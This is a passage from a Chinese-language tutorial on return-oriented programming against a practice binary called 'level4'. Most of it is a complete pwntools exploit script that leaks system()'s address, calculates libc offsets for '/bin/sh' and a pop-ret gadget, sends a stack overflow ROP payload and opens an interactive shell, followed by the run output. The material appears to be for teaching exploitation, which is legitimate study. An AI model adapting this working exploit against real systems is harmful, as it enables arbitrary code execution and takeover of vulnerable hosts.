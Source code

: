 所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：

```
#!python
#!/usr/bin/env python
from pwn import *

libc = ELF('libc.so.6')

p = process('./level4')
#p = remote('127.0.0.1',10001)

binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
print "binsh_addr_offset = " + hex(binsh_addr_offset)

pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
print "pop_ret_offset = " + hex(pop_ret_offset)

#pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
#print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

print "\n##########receiving system addr##########\n"
system_addr_str = p.recvuntil('\n')
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

binsh_addr = system_addr + binsh_addr_offset
print "binsh_addr = " + hex(binsh_addr)

pop_ret_addr = system_addr + pop_ret_offset
print "pop_ret_addr = " + hex(pop_ret_addr)

#pop_pop_call_addr = system_addr + pop_pop_call_offset
#print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

p.recv()

payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 

#payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

print "\n##########sending payload##########\n"
p.send(payload)

p.interactive() 
```

运行结果如下：

```
#!bash
$ python exp6.py 
[+] Started program './level4'
binsh_addr_offset = 0x134d41
pop_ret_offset = -0x22d1e

##########receiving system addr##########

system_addr = 0x7f6f754d8730
binsh_addr = 0x7f6f7560d471
pop_ret_addr = 0x7f6f754b5a12

##########sending payload##########

[*] Switching to interactive mode
```
